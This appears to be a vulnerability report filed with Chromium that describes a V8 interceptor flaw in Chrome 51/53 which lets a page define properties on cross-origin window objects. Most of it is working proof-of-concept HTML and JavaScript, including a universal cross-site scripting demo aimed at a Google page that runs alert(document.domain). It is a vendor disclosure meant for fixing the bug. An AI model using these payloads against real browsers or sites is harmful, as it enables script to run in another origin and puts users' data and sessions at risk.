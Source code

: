 <b>VULNERABILITY DETAILS</b>
v8::internal::Object::SetProperty iterates through the prototype chain to find an existing property
with a given name. If nothing is found, the method defines a new data property on the receiver.
The problem is that some named property interceptors have side-effects, and, unlike proxies, if an
interceptor doesn't return a value, the execution of the method will continue.
For example, the interceptor for HTMLEmbedElement can call a user-defined getter on Object.prototype:

src/third_party/WebKit/Source/bindings/core/v8/custom/V8HTMLPlugInElementCustom.cpp:45:
void getScriptableObjectProperty(PropertyType property, const v8::PropertyCallbackInfo<v8::Value>& info)
{
    HTMLPlugInElement* impl = ElementType::toImpl(info.Holder());
    RefPtr<SharedPersistent<v8::Object>> wrapper = impl->pluginWrapper();
    if (!wrapper)
        return;

    v8::Local<v8::Object> instance = wrapper->newLocal(info.GetIsolate());
    if (instance.IsEmpty())
        return;

    v8::Local<v8::Value> value;
    if (!instance->Get(info.GetIsolate()->GetCurrentContext(), property).ToLocal(&value))
        return;

    if (value->IsUndefined() && !v8CallBoolean(instance->Has(info.GetIsolate()->GetCurrentContext(), property)))
        return;

    v8SetReturnValue(info, value);
}

In order to exploit this bug, an attacker has to insert an object with a suitable property interceptor into
the prototype chain of a global proxy and to force the interceptor to run JavaScript that performs
a synchronous cross-origin page load into the window associated with the global proxy. As a result, a new
property will be defined on a cross-origin global object.

<b>VERSION</b>
Google Chrome 51.0.2704.84 (Official Build) m (64-bit)
Google Chrome 53.0.2764.0 (Official Build) canary (64-bit)

<b>REPRODUCTION CASE</b>
http://localhost:8001/victim.html:
<iframe name="child"></iframe>
<div id="log"/>
<script>
setInterval(() => {
    var r;
    try {
        r = child.prop;
    } catch (e) {
        r = e;
    }
    log.textContent = "child.prop = " + r;
}, 100); 
</script>

http://localhost:8000/attacker.html:
<body>
<script>
if (window == top) {
    victim = document.body.appendChild(document.createElement("iframe"));
    victim.width = victim.height = 1000;
    victim.src = "http://localhost:8001/victim.html";
    victim.onload = () => victim.contentWindow.child.location = location;
} else {
    top.go();
}

function go() {
    embed = document.createElement("embed");
    embed.type ="application/pdf";
    document.body.appendChild(embed);
    Object.setPrototypeOf(embed, null);

    wnd = victim.contentWindow.child;
    Object.setPrototypeOf(wnd, embed);
    Object.prototype.__defineGetter__("prop", () => {
        anchor = wnd.document.createElement("a");
        anchor.href = "about:blank";
        anchor.click();
    });
    wnd.prop = 123;
}
</script>
</body>

A bit more complex real-world example:
<body>
<script>
embed = document.createElement("embed");
embed.type ="application/pdf";
document.body.appendChild(embed);
Object.setPrototypeOf(embed, null);

iframe = document.body.appendChild(document.createElement("iframe"));
blob = new Blob([]);
blobUrl = URL.createObjectURL(blob,"text/html");

intervalId = setInterval(() => {
    wnd = iframe.contentWindow[0];
    if (wnd) {
        clearInterval(intervalId);

        wnd.location = blobUrl;
        intervalId = setInterval(() => {
            if (wnd.document) {
                clearInterval(intervalId);

                Object.setPrototypeOf(wnd, embed);
                Object.prototype.__defineGetter__("rpc", function() {
                    wnd.name = "gadgets";

                    anchor = wnd.document.createElement("a");
                    anchor.href = "about:blank";
                    anchor.click();
                });
                proxy = new Proxy({}, {get: x => function(arg) {
                    arg.constructor.constructor("alert(document.domain)")();
                }});
                iframe.contentWindow[0].rpc = proxy;
            }
        }, 0)
    }
}, 0);
iframe.src="http://www.google.ru/chrome/business/";
</script>
</body>

--

I would like to remain anonymous for this report.